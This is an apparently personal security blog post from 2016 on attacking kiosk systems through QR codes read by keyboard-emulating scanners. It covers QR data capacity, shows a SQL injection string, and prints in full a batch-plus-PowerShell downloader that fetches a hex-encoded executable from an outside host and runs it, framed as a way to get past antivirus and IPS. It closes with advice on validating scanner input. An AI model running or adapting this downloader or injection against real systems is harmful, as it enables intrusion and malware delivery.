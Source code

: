 ```yaml
---
date: 2016-06-18 14:07:00+02:00
title: Pwned by a QR Code
header:
  image: /assets/images/posts/computer-cropped.jpg
teaser_image_path: /assets/images/posts/computer-cropped.jpg
toc: true
toc_label: "Content"
toc_sticky: true
tags:
- Security
- Hacking
---
```


More and more use bar codes outside the retail industry as a source or pointer to information. If you think about it, this also serves as a teaser to the observer as the information is not there in clear text. The target is bound to try to find out what it says...

## The QR Code

First a short re-cap; QR - Or Quick Response Code which was originally invented for the japanese automotive industry is a bar code standard which encode data into a two-dimensional matrix. And when I talk to people, the most common denominator is that they think the code is only representing a URL, and that nothing else may be contained in it. In fact in can contain so much more!

## Data Capacity

The standard shows quite an impressive capacity as shown in the following table:

Input Type	Max. Chars.	Possible Chars.
Numeric	7,089	0-9
Alphanumeric	4,296	0-9, A-Z (Upper case only), space, $, %, *, +, -, ., /, :
Binary	2,953	ISO 8859-1

This of course also all depends on which error correction level being used. The higher level, the more redundancy must be encoded, which in turn of course consumes more space:

Low - 7% of all code words may be restored
Medium - 15% of all code words may be restored
Qartile - 25% of all code words may be restored
High - 30% of all code words may be restored

So if parts of the QR Code is torn off, blurred or in other ways corrupted it may still be successfully scanned. You may have seen this utilized in a very creative manner, where the creater put their logo in the QR code. As ou may imagine, this gives us a lot to work with as this is more than enough in order encode a backdoor, dropper or any other type of exploit into a single QR Code image.

## The Scanner

In order to interpret the QR Code we need a scanner or a software implemented image interpreter. Most of us know the latter best as a small app for your smart phone. These are also the main reason why so many know of the QR Code technique. However in this caase we will focus on the second common scanner type that the public comes in contact with: Kiosk PCs, Price tag and serach terminals and similar. Many of these scanners are connected to the system as a standard USB HID keyboard and as such have most of its functionality. This means that anything that can be done via the keyboard can be done via a QR Code.

From experience I've found that most scanners are lacking support for special keys such as ALT, ALT Gr and key combinations such as CTRL+ALT+DEL though. Many also support a wide variety of code standards such as Code 128 and QR Code just to mention two of the more capable. This may have real security implications if the system in question is a keyboard-less kiosk PC or where an on-screen software keyboard is used which functionality is filtered.

## So what can we do with it in the end?

As you may have imagined, a lot of mischief can be done! The below QR code is the encoded string:

'OR 1=1--

Imagine what would happen in for example a kiosk PC environment where special keys are supressed and the web application it is running is suceptible to SQL injection.

Why stop there? Given the capacity of a single image it is technically possible to embedd a pretty advanced piece of malware into one image. Say you have access to the command prompt at this stage: The example below is a PoC of a small downloader written in PowerShell. But first we need to get the script onto the system which we do with a simple cmd job echoing the script into a file and then executes it. When executed it downloads a binary encoded into ASCII hex, converts it back into a binary and executes it.

Below is the batch code which writes the PowerShell script to file:

```powershell
@echo off
echo function DLE>C:\f.ps1
echo {$w=New-Object System.Net.WebClient>>C:\f.ps1
echo [string]$h=$webClient.DownloadString(http://www.0x90.se/bin)>>C:\f.ps1
echo [Byte[]]$t=$h -split ' '>>C:\f.ps1
echo [System.IO.File]::WriteAllBytes("$env:C:\Windows\System32\temp\s.exe", $t)>>C:\f.ps1
echo start-process -nonewwindow "$env:C:\Windows\System32\temp\s.exe"}>>C:\f.ps1
echo DLE>>C:\f.ps1
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\f.ps1
rm C:\f.ps1
```

powershell.scriptAnd to the left is the above code represented as a QR Code. This particular binary downloaded is programmed just to start the calculator, so have no fear!

"Hey! Why do you need to encode it into ASCII hex in the first place when you can download the binary directly?"...True! But I have a greater chance in bypassing any IPS's and antiviral protections on the way that may be watching us. The downloader in this case is just a mere 481 bytes so it fits very well in a QR Code image. And if you take a closer look at the two first hex values (x77, x90) in the partial hex representation below to the right you will find that it is the initial bytes of the DOS header in a typical PE executable: MZ

The downloaded ASCII hex encoded binary is just above 18k so it unfortunately falls out of any range supported by the QR standard. If I encode the same routine using Metasploit for example I end up with a binary that is about 5k and a hex file around 13k. This binary also triggers most AV products as well. If you put your mind to it, you would be able to make the executable much smaller if it were to be written in for example ASM. The ultimate goal would be to have it all selfcontained in one single QR Code: One image, one hit.

Using the above method we could also implement a standard multi-staged chain of infection of a typical APT: Plant dropper --> download recconaissance program --> download custom malware. So in effect it will take just milliseconds to enter each code via the reader and a few seconds for it to execute the whole attack. In case the code is bigger we just need to split it into several QR Code images. A typical A4/Letter sheet would be able to hold several tens of kilobytes.

We can easily exploit other services such as web applications and transport layer implementations as well letting the victim do our biddings using the QR Code as a bearer of the initial prerequisites for an attack. This cold range from attacks such as SQL injection and Cross-Site Scripting to buffer overflow attacks and information theft.

## Conclusion

Imagine a scenario where a serious vulnerability is discovered in the component that handles QR Code decoding in a mobile platform. Paste the exploit on a public billboard and own as many mobile devices as you want! Perhaps you may want to think twice before scanning that unknown QR Code.

Regarding scanners, always think of them in terms of a keyboard and the power that comes with that type of device. It will most certainly be present and active at all times even if software keyboards are suppressed at certain points (or always?). The input from a scanner will need to be filtered, validated and perhaps truncated just as any other untrusted source.

For more information about the QR Code standard, please see Wikipedia for great coverage: http://en.wikipedia.org/wiki/QR_code

Finally, here is food for thought: How do we check public billboards etc. for malicous QR Code content? Do we hire personnel driving around town scanning QR codes for malicious content? ;)

Credits due: PowerShell inspiration gotten from Nikhil at http://labofapenetrationtester.blogspot.com/